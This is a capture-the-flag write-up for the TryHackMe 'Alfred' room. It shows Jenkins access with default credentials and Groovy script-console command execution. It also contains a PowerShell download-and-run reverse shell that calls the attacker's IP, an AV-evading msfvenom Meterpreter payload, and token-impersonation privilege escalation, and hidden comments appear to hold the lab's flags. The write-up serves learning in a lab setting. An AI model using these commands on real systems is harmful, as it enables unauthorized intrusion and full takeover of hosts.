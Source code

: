 # <div align='center'>[Alfred](https://tryhackme.com/room/alfred)</div>
<div align='center'>Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.</div>
<div align='center'>
  <img src='https://github.com/user-attachments/assets/335a1059-b792-4edc-a5e2-ea767b35e798' height='200'></img>
</div>

### Step 1: Reconnaissance

```bash
:~$ nmap -sV 10.10.219.84
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 20:35 IST
Nmap scan report for 10.10.219.84
Host is up (0.19s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The Nmap scan reveals three open ports:

* **Port 80** – HTTP service (Microsoft IIS 7.5)
* **Port 3389** – RDP (likely not useful at this point)
* **Port 8080** – Running Jetty server (possibly hosting Jenkins)

#### Exploring Port 80

Since port 80 is usually the default web service, let's visit it in the browser:

![image](https://github.com/user-attachments/assets/7483aad4-dbc8-4c4c-b387-ae7b2848ea25)

Unfortunately, there's nothing useful here.

#### Checking Out Port 8080 (Jenkins)

Given that the Jetty server is running on port 8080 and the version looks outdated, let’s take a look.

![image](https://github.com/user-attachments/assets/84cdf8d0-1e7e-4d29-9853-e5010f586658)

Let's try the classic move: default credentials `admin:admin`.

![image](https://github.com/user-attachments/assets/a53f02a6-4d96-4c6f-94ca-ea4b7376ead0)

**Bingo!** We're in 😎 — call me a genius!

### Step 2: Exploitation

While scrolling through the Jenkins interface, I finally found something promising under **Manage Jenkins** → **Script Console**.

![image](https://github.com/user-attachments/assets/4a883914-a503-4df8-b551-98415f9cc72b)

After experimenting for a bit, I figured out how to run commands. Let’s test it by listing the contents of the `C:` drive using:

```groovy
cmd = "cmd.exe /c dir"
println cmd.execute().text
```

![image](https://github.com/user-attachments/assets/08208f34-aedc-4bf8-b079-79792292dfb5)

Nice! We got some output. Now let’s move on to getting a reverse shell.

### Preparing the Reverse Shell

We'll use **Nishang**, a collection of PowerShell scripts for exploitation. Clone the repo:

```bash
git clone https://github.com/samratashok/nishang
```

Navigate to the `Shells` directory:

```bash
cd nishang/Shells/
```

Now, we’ll host the reverse shell script using a simple Python HTTP server:

```bash
python3 -m http.server
```

![image](https://github.com/user-attachments/assets/ec758bd2-d1b0-4211-8d65-cf8fcf5eafc7)

Meanwhile, set up a Netcat listener on a different port to catch the shell:

```bash
nc -lnvp 1234
```

### Executing the Reverse Shell

We’ll download and execute the reverse shell script on the target machine via the Jenkins Script Console:

```groovy
cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port"
println cmd.execute()
```

Example with my setup:

```groovy
cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.14.127:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.14.127 -Port 1234"
println cmd.execute()
```

And... **boom!** Got the reverse shell back:

![image](https://github.com/user-attachments/assets/9e6bc915-db95-4347-bcd8-d57eeb0c8c3e)

### Step 3: Post Exploitation

#### User Flag.txt

We begin by retrieving the `user.txt` file from the compromised system:

```powershell
cat 'C:\Users\bruce\Desktop\user.txt'
```

<!-- 79007a09481963edf2e1321abd9ae2a0 -->

![image](https://github.com/user-attachments/assets/d78864b1-d5c9-46fc-a42c-bec8cfbff9f8)


### Step 4: Privilege Escalation

#### Switching to Meterpreter

To make privilege escalation easier and more efficient, let’s upgrade to a **Meterpreter shell** using a custom payload.

Generate the payload with `msfvenom`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<your-ip> LPORT=<your-port> -f exe -o shell-test.exe
```

This payload uses the `x86/shikata_ga_nai` encoder to help evade antivirus detection.

#### Setting Up the Handler

Start **Metasploit Framework Console**:

```bash
msfconsole -q
```

Configure the handler:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your-thm-ip>
set LPORT 5555
run
```

#### Delivering the Payload

Now, we need to transfer the `shell-test.exe` file to the target. From the directory where your payload is saved (e.g., `/home/user`), run a simple Python server:

```bash
python3 -m http.server
```

On the target (via the reverse shell), download the file:

```powershell
powershell "(New-Object System.Net.WebClient).DownloadFile('http://<your-thm-ip>:8000/shell-test.exe','shell-test.exe')"
```

![image](https://github.com/user-attachments/assets/4408c39f-2e4b-4662-abd9-33f0291d7937)

Execute the payload:

```powershell
Start-Process "shell-test.exe"
```

![image](https://github.com/user-attachments/assets/ec6fbbcd-504b-4557-86e0-e49ed71d4b73)

Once the Meterpreter shell is received, type:

```bash
shell
```

![image](https://github.com/user-attachments/assets/f52a258f-15aa-4005-b744-567a4465c22a)

#### Privilege Escalation via Token Impersonation

Check current privileges:

```powershell
whoami /priv
```

![image](https://github.com/user-attachments/assets/c873e060-900e-4642-b150-32b0005d4af6)

We see `SeDebugPrivilege` and `SeImpersonatePrivilege` are enabled — perfect for token impersonation.

Load the **incognito** module in Meterpreter:

```bash
load incognito
```

> If `load incognito` fails, try `use incognito` or ensure your Metasploit is updated.

Press `Ctrl+C` to exit the shell and return to the Meterpreter prompt.

List available tokens:

```bash
list_tokens -g
```

![image](https://github.com/user-attachments/assets/580e84f2-ddf3-4c5c-a265-50404dd99b3e)

We can see that the `BUILTIN\Administrators` token is available.

Impersonate it:

```bash
impersonate_token "BUILTIN\\Administrators"
```

![image](https://github.com/user-attachments/assets/15dfdeb9-451f-4199-84b2-ab173774e818)

### Final Step: Root Flag

Before reading the root flag, let’s migrate to a stable system process for persistence. View running processes:

![image](https://github.com/user-attachments/assets/0ee6b838-9ec2-434e-aa7a-81c4f56eeb4b)

Choose a stable process and migrate to it:

```bash
migrate <PID>
```

![image](https://github.com/user-attachments/assets/c1b0fc0a-a1f4-4769-8e52-1bf3016fda1f)

#### Root Flag.txt

Once you have SYSTEM privileges, retrieve the root flag:

```powershell
type 'C:\Windows\System32\config\root.txt'
```

![image](https://github.com/user-attachments/assets/609af3d5-7e0b-43b4-a689-640cbde2695e)

<!-- dff0f748678f280250f25a45b8046b4a -->


